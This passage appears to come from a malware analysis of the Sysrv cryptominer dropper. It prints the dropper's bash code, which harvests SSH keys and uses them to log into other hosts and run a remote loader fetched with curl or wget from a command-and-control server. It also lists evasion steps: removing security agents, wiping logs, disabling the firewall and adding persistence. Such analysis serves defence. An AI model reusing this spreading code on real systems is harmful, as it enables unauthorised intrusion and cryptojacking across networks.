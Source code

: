 ```bash
    find ~/ /root /home -maxdepth 2 -name '\.ssh'|uniq|xargs find|awk '/id_rsa/'|awk -F'/' '{print $3}'|uniq|grep -v "\.ssh"
)
users=$(echo $USERZ|tr ' ' '\n'|nl|sort -u -k2|sort -n|cut -f2-)
hosts=$(echo "$HOSTS $HOSTS2 $HOSTS3"|grep -vw 127.0.0.1|tr ' ' '\n'|nl|sort -u -k2|sort -n|cut -f2-)
keys=$(echo "$KEYS $KEYS2 $KEYS3"|tr ' ' '\n'|nl|sort -u -k2|sort -n|cut -f2-)
for user in $users; do
    for host in $hosts; do
        for key in $keys; do
            chmod +r $key; chmod 400 $key
            ssh -oStrictHostKeyChecking=no -oBatchMode=yes -oConnectTimeout=5 -i $key $user@$host "(curl $cc/ldr.sh||wget -O- $cc/ldr.sh)|sh"
        done
    done
done
fi
```

Additional items to note:

- Disable / Remove AV & management agents
  - Aliyun 
  - BCM 
  - Tencent
- Other clean up
  - mail/root
  - wtmp
  - secure
  - cron

![ldr.ps1](/assets/img/sysrv/ldr_ps1.jpg)

Similar to the Linux dropper, the Windows version has the following:

- Payload IP hardcoded
- Generates a unique ID (used later to name the binary download)
  - Different on every run as it uses `date`
- Hardcoded path for the payload
- Disables firewall
- Search for other miner like processes to be killed
- Persistence
  - Scheduled Task
  - Registry 'Run' key
